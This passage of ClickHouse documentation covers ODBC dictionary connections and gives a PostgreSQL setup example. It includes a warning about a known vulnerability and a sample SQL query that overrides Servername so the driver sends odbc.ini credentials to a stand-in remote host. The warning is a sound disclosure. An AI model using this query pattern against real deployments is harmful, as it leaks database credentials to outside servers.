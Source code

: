 ClickHouse receives quoting symbols from ODBC-driver and quote all settings in queries to driver, so it’s necessary to set table name accordingly to table name case in database.

If you have a problems with encodings when using Oracle, see the corresponding [F.A.Q.](../../../faq/integration/oracle-odbc.md) item.

### Known Vulnerability of the ODBC Dictionary Functionality {#known-vulnerability-of-the-odbc-dictionary-functionality}

{% note alert "Attention" %}
    When connecting to the database through the ODBC driver connection parameter `Servername` can be substituted. In this case values of `USERNAME` and `PASSWORD` from `odbc.ini` are sent to the remote server and can be compromised.
{% endnote %}

**Example of insecure use**

Let’s configure unixODBC for PostgreSQL. Content of `/etc/odbc.ini`:

``` text
[gregtest]
Driver = /usr/lib/psqlodbca.so
Servername = localhost
PORT = 5432
DATABASE = test_db
#OPTION = 3
USERNAME = test
PASSWORD = test
```

If you then make a query such as

``` sql
SELECT * FROM odbc('DSN=gregtest;Servername=some-server.com', 'test_db');
```

ODBC driver will send values of `USERNAME` and `PASSWORD` from `odbc.ini` to `some-server.com`.

### Example of Connecting Postgresql {#example-of-connecting-postgresql}

Ubuntu OS.

Installing unixODBC and the ODBC driver for PostgreSQL:

``` bash
$ sudo apt-get install -y unixodbc odbcinst odbc-postgresql
```

Configuring `/etc/odbc.ini` (or `~/.odbc.ini` if you signed in under a user that runs ClickHouse):

``` text
    [DEFAULT]
    Driver = myconnection

    [myconnection]
    Description         = PostgreSQL connection to my_db
    Driver              = PostgreSQL Unicode
    Database            = my_db
    Servername          = 127.0.0.1
    UserName            = username
    Password            = password
    Port                = 5432
    Protocol            = 9.3
    ReadOnly            = No
    RowVersioning       = No
    ShowSystemTables    = No
    ConnSettings        =
```
